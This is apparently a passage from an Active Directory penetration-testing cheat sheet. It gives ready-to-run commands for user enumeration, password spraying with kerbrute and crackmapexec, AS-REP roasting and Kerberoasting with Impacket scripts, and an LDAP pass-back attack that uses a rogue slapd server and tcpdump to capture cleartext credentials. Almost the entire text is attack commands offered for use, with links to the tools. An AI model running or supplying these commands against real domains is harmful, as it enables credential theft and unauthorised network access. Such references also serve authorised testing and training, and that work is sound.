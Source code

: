 
https://github.com/c3c/ADExplorerSnapshot.py

* enum4linux - enumeration
```
enum4linux -v -u <user> -p <pass> -a <ip>
```
* ldapdomaindump - Dump AD  
https://github.com/dirkjanm/ldapdomaindump

## Basic Active Directory Attacks
### Password Spraying
* kerbrute  
```
kerbrute passwordspray -d test.local --dc <ip> users.txt pass@2022
```
* crackmapexec  
```
crackmapexec smb <ip> -u users.txt -p pass@2022 --no-bruteforce
```

### AS-REP Roasting Attack - not require Pre-Authentication  
* kerbrute - Enumeration Users
```
kerbrute userenum -d test.local --dc <dc_ip> userlist.txt
```
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

* GetNPUsers.py - Query ASReproastable accounts from the KDC  
```
python GetNPUsers.py domain.local/ -dc-ip <ip> -usersfile userlist.txt
```
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py

### Kerberoasting 
* GetUserSPNs 
```
impacket-GetUserSPNs '<domain>/<user>:<password>' -dc-ip <ip> -request
```
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py

### LDAP Pass-back 
* Creating a rogue LDAP server  
```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```
```
sudo dpkg-reconfigure -p low slapd
```

* Creating file for ensuring that the LDAP server only supports PLAIN and LOGIN authentication methods  
```
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
```
sudo tcpdump -SX -i breachad tcp port 389
```
